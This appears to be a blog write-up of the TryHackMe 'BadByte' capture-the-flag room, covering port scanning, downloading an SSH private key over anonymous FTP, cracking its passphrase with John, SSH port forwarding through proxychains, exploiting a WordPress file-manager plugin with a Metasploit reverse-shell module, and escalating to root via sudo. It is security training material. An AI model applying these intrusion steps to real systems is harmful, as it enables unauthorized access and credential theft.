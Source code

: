```yaml
---
layout: post
title: "BadByte"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [rustscan, ftp, private_key, ssh2john, JTR, password-cracking, rockyou.txt, id_rsa, socks5, proxy, proxychains, port-forwarding, nmap-script-scanning, wordpress, metasploit, RCE, CVE-2020-25213, meterpreter, sudo]
image: ../../assets/img/posts/badbyte.png 

---
```


## Description

Infiltrate BadByte and help us to take over root.

|**Room**|[BadByte](https://tryhackme.com/room/badbyte)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Raccooninja](https://tryhackme.com/p/Raccooninja), [electronforce](https://tryhackme.com/p/electronforce)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.40.80 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/187254394-ab6aa6cb-d8a2-49de-a4df-8371012af3ec.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sC -sV 10.10.40.80 -p22,30024 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/187254438-e6ba08ab-cf94-4699-9a9e-9b35ce3ed9c6.png)

Result scan shows that port 22 is running ssh service, port 30024 is running ftp service with anonymous login. Let's enumerate ftp service.

Logging into ftp service,

```bash
ftp 10.10.40.80 30024
```

![image](https://user-images.githubusercontent.com/67465230/187254467-6945d790-212d-46ce-a0b1-02f212497949.png)

we got in.

Enumerate directory and downloading all present file using `mget` command,

```bash
ls -la 
mget *
```

![image](https://user-images.githubusercontent.com/67465230/187254507-9fabcee4-2d1b-426d-902d-83afbc93566e.png)

Reading what's inside note.txt file and we got the username of the user who wrote this note!

![image](https://user-images.githubusercontent.com/67465230/187255644-368a41ee-dd1f-4723-b164-8e98e1826cd1.png)

Now, reading id_rsa key,

![image](https://user-images.githubusercontent.com/67465230/187255755-6b32c3ec-c7c5-48a2-a74a-5a5d5d93a2bb.png)

After seeing this key, I realized that this is private key and we need to convert this key into crack-able hash.

So we will first find the location of tool called ssh2john and then we will use it to convert this key into crack-able hash so that we can crack this hash using JTR,

```bash
locate ssh2john
/usr/share/john/ssh2john.py id_rsa > id_rsa_hash
john id_rsa_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/187255812-8925ec54-220f-473b-90c1-92a250dc1da5.png)

Now that we have passphrase of id_rsa key and we know username, we can try to login via ssh,

```bash
ssh -i id_rsa errorcauser@10.10.40.80
```

![image](https://user-images.githubusercontent.com/67465230/187255868-c45f4126-af4b-4ad0-aee9-2eb7518cc9e6.png)

we got in!

Enumerating directory and there is note.txt file which seems interesting,

![image](https://user-images.githubusercontent.com/67465230/187255927-c701ec8e-d05f-4403-89d2-b41e9343bee7.png)

Reading through note file, 

![image](https://user-images.githubusercontent.com/67465230/187255987-944b8895-77e1-41b8-b771-19839666d4a4.png)

Seems like we need to do port forwarding in order to access internal webserver.

#### Port Forwarding
- Setup Dynamic Port Forwarding using SSH:

```bash
ssh -i id_rsa errorcauser@10.10.40.80 -D 1337
```

![image](https://user-images.githubusercontent.com/67465230/187256024-935e36d2-eb90-4682-a8e4-1a578055d12c.png)

- Set up proxychains for the Dynamic Port Forwarding. Ensure you have commented out socks4 `127.0.0.1 9050` in your proxychains configuration and add `socks5 127.0.0.1 1337` to the end of configuration file (`/etc/proxychains.conf`).

![image](https://user-images.githubusercontent.com/67465230/187256072-28f07bfe-181a-42ce-b58e-5e238d504fca.png)

- Run a port scan to enumerate internal ports on the server using proxychains. If you use Nmap your command should look like this 

```bash
proxychains nmap -sT 127.0.0.1
```

![image](https://user-images.githubusercontent.com/67465230/187256139-3df1b6a1-f4f6-45b1-8072-496252ccc938.png)

- After finding the port of the webserver, perform Local Port Forwarding to that port using SSH with the -L flag.

```bash
ssh -i id_rsa errorcauser@10.10.40.80 -L 80:127.0.0.1:80
```

![image](https://user-images.githubusercontent.com/67465230/187256177-a18265e1-7581-4d79-9800-41e24d8460ef.png)

Now that we are all set, let's visit our localhost IP to access the webserver,

![image](https://user-images.githubusercontent.com/67465230/187256225-167c328a-c6ba-4072-adf7-a146c3d0079d.png)

we are welcomed with Badbyte webpage.

Let's scan the localhost IP address with nmap,

```bash
nmap --script=default 127.0.0.1 -p80
```

![image](https://user-images.githubusercontent.com/67465230/187256258-19ed5b2c-489b-41ba-8a65-c6dfb00a0556.png)

Result scan shows that apache webserver is running on port 80.

Let's scan for any vulnerabilities, _if present_, on website with script scanning,

```bash
nmap --script=http-wordpress-enum.nse 127.0.0.1 -p80 search-limit=1500
```

![image](https://user-images.githubusercontent.com/67465230/187256302-e0242e72-c75a-43d7-8485-2ebf188ee96b.png)

we got a plugin name, _duplicator 1.3.26_.

Looking around on the internet for the exploit of this plugin and I found github repo containing exploit for this plugin,

![image](https://user-images.githubusercontent.com/67465230/187256335-923a96ca-633e-436a-bbb3-feb1c900359b.png)

We also have metasploit module for this exploit so we will boot metasploit using `msfconsole -q` and search for the module,

```bash
search wp-file
```

Now, we need to use this module,

![image](https://user-images.githubusercontent.com/67465230/187256379-0ce5c4de-4e41-42c1-af0c-6289c58684e2.png)

```bash
use exploit/multi/http/wp_file_manager_rce
```

![image](https://user-images.githubusercontent.com/67465230/187256423-1b962e35-4c5d-4948-89c1-125f4a4dccf6.png)

setting the `options`:
- **set rhosts 127.0.0.1**
- set lhost tun0

Running the module and caught the shell,

![image](https://user-images.githubusercontent.com/67465230/187256465-4b4dc44d-2627-4273-883e-e151304b5985.png)

Now, we currently have under privilege shell with less functionality, so we need to improve the shell,

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image](https://user-images.githubusercontent.com/67465230/187256512-b2dd942c-d1a1-40d5-9b64-976e8b4e2185.png)

After getting proper shell, we can find any interesting files which can be access by cth user,

```bash
find / -type f -user cth -exec ls {} + 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/187256552-eeadb900-74a5-41d7-bae7-c0d3b08418b3.png)

There is /var/log/bash.log file which can be access by cth user.

Let's take a look at this log file,

![image](https://user-images.githubusercontent.com/67465230/187256615-475f1a75-189c-4d76-a3c3-25526c1bcf76.png)

and we got a password. 

Now, comes the privilege escalation part. We can list all binaries which we can run using `sudo`,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/187256688-790c7f03-1efe-4f9b-89a6-8a0eb33bd1d4.png)

we can run ALL binaries using sudo.

So, with `sudo`, we can become root user,

![image](https://user-images.githubusercontent.com/67465230/187256730-52f6ea61-c8c9-4f84-b9a3-7de2c8e5e73a.png)

and now navigating to /root directory and there we can find root flag.